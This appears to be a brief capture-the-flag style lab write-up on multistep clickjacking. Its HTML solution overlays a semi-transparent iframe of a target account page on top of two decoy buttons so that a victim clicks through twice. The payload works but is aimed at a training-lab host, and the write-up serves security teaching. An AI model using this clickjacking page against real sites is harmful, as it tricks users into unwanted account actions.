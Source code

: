 # Lab: Multistep clickjacking
## Description
Just added another button to trick user into clicking twice.

## Solution
```html
<html>
<head>
<style>
    #target_website {
      position:relative;
      width:528px;
      height:620px;
      opacity:0.60001;
	  margin-bottom: 200px;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
	  top:520px;
	  left:45px;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
<body>
	<div id="decoy_website"><button style="width: 130px; height:25px;">Click me first</button></div>
	<div id="decoy_website2"><button style="width: 100px; height:25px;">Click me next</button></div>
	<iframe id="target_website" src="https://target.web-security-academy.net/my-account"></iframe>
</body>
</html>
```
